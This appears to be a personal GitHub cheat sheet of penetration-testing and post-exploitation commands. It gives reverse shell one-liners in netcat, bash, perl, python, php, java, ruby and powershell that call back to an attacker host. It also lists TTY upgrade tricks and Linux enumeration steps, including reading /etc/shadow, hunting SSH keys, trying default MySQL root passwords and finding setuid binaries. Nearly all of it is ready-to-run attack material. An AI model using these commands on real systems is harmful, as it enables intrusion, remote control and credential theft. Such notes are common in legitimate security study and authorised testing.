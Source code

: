 ## enumerate a process using directory traversal
If we have an unknown service on a port exposed, and have a directory traversal bug, then we can use /proc/sched_debug to get PID's to all the running processes, then from that we can make an educated guess so as to what service it can be, then we can use /proc/PID/cmdline to cross check more on this here https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/

## getting a reverse shell:-
### Try using netcat as follows:-
1. on your attacker machine set up a listener by:- `nc -lvp "port"`
2. on the compromised machine connect with the listener and spawn shell by:- `nc -e /bin/bash "attacking machine IP" "port"`
3. If -e flag is missing then use this `mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc ip port > /tmp/f`

### If netcat doesnt work then use netcat to set up listener in the attacker machine via netcat and use the following to get a reverse shell back
`/bin/bash -i >& /dev/tcp/IP/PORT 0>&1` (via bash)<br />
or<br />
`perl -e 'use Socket;$i="IP";$p="PORT";socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'` (via perl)<br />
or<br />
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'` (via python) <br />
or<br />
`php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'` (via php)<br />
or<br />
`r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()` (via java)<br />
or<br />
`ruby -rsocket -e'f=TCPSocket.open("IP",PORT).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)'` (via ruby)<br />
or<br />
`powershell -c "$client = New-Object System.Net.Sockets.TCPClient("IP",PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"` (via powershell)
# getting a tty shell:-
`python -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`python3 -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`python -c ‘import pty; pty.spawn("/bin/sh")’`<br />
or<br />
`python3 -c ‘import pty; pty.spawn("/bin/bash")’`<br />
or<br />
`SHELL="/bin/bash" script -q /dev/null`<br />

## getting a colored tty shell (after getting a tty shell):- 
#### *do this in your host machine because u need the length and breadth of the window of ur terminal*

`stty -a` <br />
#### *then do the following in the victim shell*<br />
`export SHELL=/bin/bash`<br />
`export TERM=xterm256-color`<br />
`stty rows "rows u found in step1" columns "columns u found in step1"`<br />

## Making the shell interactive:-

`stty raw -echo`

## the obvious stuff:-

history <br />
whoami <br />
id <br />
hostname<br />
cat /etc/passwd<br />
sudo -l (to list all perms of the user)<br />
sudo --version (to check the version and see if it is vulnerable to any exploit)<br />

## about system and processes running:-

`uname -a` (to get the version of the kernel)<br />
`cat /etc/shells 2>/dev/null` (list available shells)<br />
`ps aux 2>/dev/null`<br />
`find /etc/init.d/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null` (init.d files not belonging to root)<br />
`find /lib/systemd/ \! -uid 0 -type f 2>/dev/null |xargs -r ls -la 2>/dev/null` (systemd files not belonging to root)<br />
`mysql --version 2>/dev/null` (to check the version of mysql if installed to check for any known vulnerabilities)<br />
`mysqladmin -uroot -proot version 2>/dev/null` (to check if default creds work)<br />
`mysqladmin -uroot version 2>/dev/null` (to check if no pass works)<br />
`psql -V 2>/dev/null` (to check the version of postgresql if installed to check for any known vulnerabilities)<br />

## about services(daemons) running:-

`systemctl list-units --type=service` (to list all services active or not)
We can also check in /etc/init.d/ to check for any daemons which run after init(systemd) essentially all startup services

## about users:-

cat /etc/passwd 2>/dev/null<br />
lastlog (to get last login details of all user accounts)<br />
w (to check if any other user is currently logged on)<br />
cat /etc/group (to see if any user is part of other groups)<br />
cat /etc/shadow (if we r in the root or shadow group)<br />
cat /etc/master.passwd (same as /etc/shadow but for bsd)<br />
find /home -name .sudo_as_admin_successful 2>/dev/null (find who has sudoed earlier)<br />

## then find files owned by the user/group/root via the following:-

ls -l<br />
find / -user "username/root" -group "groupname" exec ls -lb 2>/dev/null<br />
locate "groupname"(sometimes can result in filenames having the groupname in it.....MIGHT BE INTERESTING!!)<br />

## then find files not owned by the user/group/root but have rights via the following:-

`find / -readable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (read rights)<br />
`find / -writable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (write rights)<br />
`find / -executable ! -user "user" -type f ! -path "/proc/*" ! -path "/sys/*" 2>/dev/null` (executable rights)<br />
`find / -user root -perm -4000 2>/dev/null` (for getting setuid files)<br />
`find / -user root -perm -2000 2>/dev/null` (for getting all setgid files)<br />
`find / -name "id_dsa*" -o -name "id_rsa*" -o -name "known_hosts" -o -name "authorized_hosts" -o -name "authorized_keys" 2>/dev/null`  (to get ssh info)<br />

## To download something from the internet or from intranet:-

Can do a wget or curl

## To locate a file 

locate <file_name>
